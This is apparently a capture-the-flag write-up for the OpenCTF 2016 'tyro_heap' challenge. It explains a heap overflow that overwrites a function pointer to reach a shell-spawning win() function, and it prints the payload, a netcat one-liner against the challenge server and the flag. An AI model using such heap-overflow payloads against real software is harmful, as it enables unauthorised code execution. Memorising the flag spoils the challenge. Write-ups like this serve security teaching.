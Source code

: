 # tyro_heap (50 points)
*Solution by [Neg9] Javantea*

Files:
* [tyro_heap_29d1e9341f35f395475bf16aa988e29b](https://github.com/Javantea/openctf-2016-writeups/tree/master/tyro_heap/tyro_heap_29d1e9341f35f395475bf16aa988e29b)
* [heap1.txt](https://github.com/Javantea/openctf-2016-writeups/tree/master/tyro_heap/heap1.txt)
* [tyro_heap.jav](https://github.com/Javantea/openctf-2016-writeups/tree/master/tyro_heap/tyro_heap.jav)

This challenge is a heap overflow. Heap overflows are complex and the writeups for how they work are pretty bad. I spent a half hour just figuring out the dynamics of the problem.

```
create heap object
create heap object
read type b into object 0
$'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x60\x86\x04\x08'
run object function 1
quit
```

What happens in this exploit is two simple allocations. They are up against one another. Then you read 40 bytes into the first object and the last 4 overwrites the object function of the second. Then when you call the object function of the second, you get code execution. They created a function called `win()` that executes a shell. I probably could have gotten code execution without that function but that would have been worth more than 50 points. Heap exploits are not as difficult as you might think. [Send me a line](mailto:javantea@neg9.org) if you've got a heap overflow that you think should be exploitable but you can't figure it out.

```
(echo c; sleep 0.2; echo c; sleep 0.2; echo b; sleep 0.2; echo 0; sleep 0.2; echo $'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x60\x86\x04\x08'; sleep 0.5; echo e; sleep 0.2; echo 1; sleep 0.2; echo q; cat) |nc 172.31.1.35 1622

cat /home/challenge/flag
```

Solution:  
Chihui_you_got_a_heap_challenge_honaho
